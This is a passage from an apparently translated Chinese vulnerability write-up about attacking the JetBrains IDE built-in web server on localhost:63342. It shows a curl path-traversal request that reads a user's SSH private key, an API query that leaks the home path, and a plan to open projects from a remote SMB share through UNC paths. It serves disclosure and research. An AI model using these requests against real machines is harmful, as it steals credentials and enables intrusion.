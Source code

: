 

[![](https://p1.ssl.qhimg.com/t010dade6db1b54cec2.png)](https://p1.ssl.qhimg.com/t010dade6db1b54cec2.png)

只要我们确保现在项目是打开的状态，就不必再猜测项目名称了。在Linux中PyCharm 的根文件夹没有标准位置，但我们可以发出/api/about?more=true请求来确定：



```
`{`
  "name": "PyCharm 2016.1.2",
  "productName": "PyCharm",
  "baselineVersion": 145,
  "buildNumber": 844,
  "vendor": "JetBrains s.r.o.",
  "isEAP": false,
  "productCode": "PY",
  "buildDate": 1460098800000,
  "isSnapshot": false,
  "configPath": "/home/user/.PyCharm2016.1/config",
  "systemPath": "/home/user/.PyCharm2016.1/system",
  "binPath": "/home/user/opt/pycharm/bin",
  "logPath": "/home/user/.PyCharm2016.1/system/log",
  "homePath": "/home/user/opt/pycharm"
`}`
```



一旦我们打开 helpers项目，就可以从/api/about?more=true响应中确定用户的本地目录，然后用来构建一个访问SSH密钥的URL，就像这样/helpers/..%2f..%2f..%2f..%2f..%2f..%2fhome/&lt;user&gt;/.ssh/id_rsa：



```
$ curl -v "http://localhost:63342/helpers/..%2f..%2f..%2f..%2f..%2f..%2fhome/user/.ssh/id_rsa"
&gt; GET /helpers/..%2f..%2f..%2f..%2f..%2f..%2fhome/user/.ssh/id_rsa HTTP/1.1
[...]
&gt; 
&lt; HTTP/1.1 200 OK
&lt; content-type: application/octet-stream
&lt; server: PyCharm 5.0.4
[...]
&lt; 
ssh-rsa AAAAB3NzaC[...]
```



**WINDOWS****环境下攻击更加容易**

上述用来打开 helpers目录的技巧只有在用户已经安装PyCharm 2016.1 的前提下成立，其他情况下还是需要猜测出项目名称。那么其他的JetBrains IDE（比如IntelliJ IDEA和Android Studio）工作情况怎么样呢？

  由于jetbrains://project/open处理程序允许我们通过任何路径传递项目，UNC路径又是一个很方便的选择。UNC 路径是 windows 的特定路径，允许用户在网络共享中引用文件。（类似于\servernamesharenamefilepath）。多数的windows文件API会很乐于选择UNC路径并且光明正大地连接到另一台电脑的SMB共享，这样就可以读取和写入远程文件。如果可以获得从SMB共享中打开项目的IDE，我们就不需要猜测受害者电脑上的项目名称了。

  出于测试的目的，我设置了一个远程的Samba示例，其中有未经身份验证的SMB共享（名叫anontesting），共享中有一个 JetBrains 项目，我们现在来尝试打开：
